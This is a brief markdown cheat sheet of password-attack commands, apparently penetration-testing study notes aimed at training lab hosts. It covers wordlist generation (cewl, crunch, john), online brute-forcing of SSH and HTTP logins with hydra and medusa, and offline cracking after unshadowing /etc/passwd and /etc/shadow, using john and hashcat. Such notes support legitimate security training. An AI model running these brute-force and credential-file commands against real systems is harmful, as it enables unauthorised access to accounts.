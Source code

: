 # Password Attacks

## references

<http://gchq.github.io/CyberChef/>
<http://openwall.info/wiki/john/sample-hashes>

## directory

```bash
/usr/share/wordlists/
/usr/share/seclist/

cewl www.megacorpone.com -m 6 -w megacorpone-cewl.txt
john --wordlist=megacorpone-cewl.txt --rules --stdout > megacorpone-john.txt

crunch 6 8 -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space -o crunch.txt
```

## online

### crackstation

<https://crackstation.net/>

### medusa

```bash
medusa -d
medusa -M http -q

medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin -T 10

```

### hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.11.12.10

hydra 10.1.0.2 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid Password!" -l admin -P /usr/share/wordlists/rockyou.txt -t 10 -w 30 -o hydra-http-post-form.txt
```

## offline

### john

```bash
unshadow /etc/passwd /etc/shadow > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### hashcat

```bash
hashcat --help | grep -ni ntlm
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

hashcat --help | grep -ni \$p 
hashcat -m 400 wp.hash ~/OSCP/rockyou.txt 
```
